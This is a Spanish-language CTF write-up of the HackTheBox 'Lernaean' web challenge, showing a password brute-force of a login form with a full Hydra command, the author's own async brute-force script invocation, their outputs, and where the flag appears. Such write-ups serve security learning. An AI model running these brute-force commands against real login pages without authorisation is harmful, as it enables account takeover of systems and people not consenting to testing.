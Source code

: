 ```yaml
---
Title: Lernaean Writeup HackTheBox Web Challenge
Date: 2019-11-28 15:29
Modified: 2019-11-28 15:29
Category: 
Tags: hackthebox, writeup, web, bruteforce, hydra, http, burp
Authors: procamora
Slug: lernaean-writeup-hackthebox-web-challenge
Summary: 
Status: published
Password: HTB
---
```



La descripción del reto es la siguiente:

_Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!_


Con esta descripción podemos entender que podemos adivinar la contraseña, por lo que debería de estar en un diccionario de las contraseñas mas utilizadas. Por este motivo se realizará un ataque de fuerza bruta, para realizarlo podemos usar tres herramientas diferentes: Hydra, Burp Suite y un script propio.



![Login](/images/2019/lernaean_login.png){:height="auto" width="100%"}

Si analizamos la web se puede ver que solo es necesario introducir la contraseña, lo que hará que el ataque por fuerza bruta menos costoso en tiempo de ejecución. Si analizamos la petición que se realiza con el login, ya sea con Burp, Wireshark o el propio navegador vemos que unicamente se envía el campo _password_ y como respuesta recibimos la misma web pero con un _Invalid password!_.


Si se realiza el ataque con Hydra, sería necesario indicar los siguientes argumentos:

```bash
hydra -l admin -P 10-million-password-list-top-10000.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 32345
```


Con lo que obtendríamos una salida similar a esta indicando que la contraseña es _leonardo_.

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-11-28 15:17:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://docker.hackthebox.eu:32345/:password=^PASS^:Invalid password!
[STATUS] 788.00 tries/min, 788 tries in 00:01h, 9212 to do in 00:12h, 16 active
[32345][http-post-form] host: docker.hackthebox.eu   login: admin   password: leonardo
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-11-28 15:19:42
```

Si se realiza el ataque con el script propio, que puede encontrase en el siguiente [repositorio][async]



[async]: https://github.com/procamora/Pentesting/blob/master/bruteforce_post_async.py



```bash
python3 bruteforce_post_async.py  http://docker.hackthebox.eu:31658/ 'Invalid password!' -l admin -P 10-million-password-list-top-10000.txt -j '{"password":""}' -v
```

Se obtendría la siguiente salida:


```
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1395/10001: user: "admin", pass: "lancer" -> Fail
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1401/10001: user: "admin", pass: "siemens" -> Fail
  DEBUG - bruteforce_post_async - bound_fetch - Trying 1403/10001: user: "admin", pass: "minnie" -> Fail
  DEBUG - bruteforce_post_async - check_regex_response - EXITO
  WARNING - bruteforce_post_async - bound_fetch - Trying 1404/10001: user: "admin", pass: "leonardo" -> Success
```


Si introducimos como contraseña _leonardo_ en el login vemos que nos muestra la siguiente pantalla:

![Correct](/images/2019/lernaean_correct.png){:height="auto" width="100%"}


Parece que algo no estamos viendo, por eso volvemos a realizar el proceso de login pero en esta ocasión capturamos todos los paquetes que recibimos, ya sea con Burp, Wireshark o el navegador, y veríamos que en la respuesta el POST con el login viene el flag que buscamos, como podemos ver a continuación:



![Response](/images/2019/lernaean_response.png){:height="auto" width="100%"}



Cabe destacar que se ha calculado los tiempos de ejecución para ambos y han sido los siguientes:


- Tiempo de ejecución de hydra: 1m33,668s
- Tiempo de ejecución de script: 0m4,643s


Esto se debe a que mi script manda peticiones asíncronas en bloques de 1000. Posiblemente Hydra también se pueda configurar para que aumente las conexiones paralelas, pero en esta ocasión se han dejado por defecto.
